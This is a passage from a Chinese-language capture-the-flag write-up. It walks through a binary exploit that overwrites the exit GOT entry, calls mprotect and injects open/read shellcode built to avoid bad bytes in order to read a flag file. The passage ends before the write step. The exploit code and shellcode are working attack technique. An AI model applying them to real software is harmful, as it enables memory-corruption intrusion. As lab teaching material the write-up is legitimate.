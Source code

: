 第二個是要讓下一次的 Payload 都不要觸發 `ptr` 的修改。正常來說如果第一個 input 不是輸入 `local` 或 `global` 的話，會直接呼叫 `exit` 結束程式。剛好我們可以修改 `exit` 的 got，我們可以先暫時把 `exit` 指向一個 `ret` 的指令，讓 `exit` 變成一個空 function：

```python
ADDR_EXIT_GOT = BASE_PIE + 0x11bb + 0x2eb5
ADDR_MYSET_RET = BASE_PIE + 0x1531
frt_write_value2addr(ADDR_EXIT_GOT, ADDR_MYSET_RET)
```

接下來呼叫 `myset` 就可以執行 `mprotect` 了：

```python
# send_cmd2srv 遇到 set 會送出 0x1000, 0x7
send_cmd2srv("ggg", "set")
```

#### 寫入檔名到記憶體中

在實際放入 Shell Code 前，我們還需要把 flag 檔名寫道記憶體上。當然，可以在 Shellcode 中把字串數值 push 到 stack 中，但還要思考怎麼寫才不會出現 `0x00` 和 `0x20`（因為 `scanf` 的緣故），所以我透過剛剛處理 ptr 的方法，把字串以及字串位置分別寫到 `global+0x38` 和 `global+0x30`，減少出錯的機率：

```python
frt_write_value2addr(ADDR_CNT+0x4, (ADDR_GLOBAL_VAR & 0xFFFF) + 0x38)
send_cmd2srv("ggg", "read", FLAG_PATH.encode()+b"\n")
frt_write_value2addr(ADDR_GLOBAL_VAR+0x30, ADDR_GLOBAL_VAR+0x38)
```

#### 修改 Exit got 位置

現在可以把 `exit` got 修改成 `global` 變數的位置了：

```python
frt_write_value2addr(ADDR_EXIT_GOT, ADDR_GLOBAL_VAR)
```

#### 送入 open, read, write 的 shellcode 並執行

因為 `execve` 被 ban 掉的緣故，這邊就用 `open`, `read`, `write` 來讀取 Flag 數值囉！

```python
# Open Flag File
# All Shell code is free of 0x00 & 0x20, length of 19 bytes
OpenShellCode = """
  push QWORD PTR [rip+0x2a]
  pop rdi
  push 0x02
  pop rax
  xor rsi, rsi
  xor rdx, rdx
  syscall
  ret
"""
send_cmd2srv("global", "read", asm(OpenShellCode)+b"\n")
send_cmd2srv("local", "ggg")

# Read Flag
ReadShellCode = """
  push QWORD PTR [rip+0x2a]
  pop rsi
  xor rax, rax
  push 3
  pop rdi
  push 0x40
  pop rdx
  syscall
  ret
"""
send_cmd2srv("global", "read", asm(ReadShellCode)+b"\n")
send_cmd2srv("local", "ggg")

```
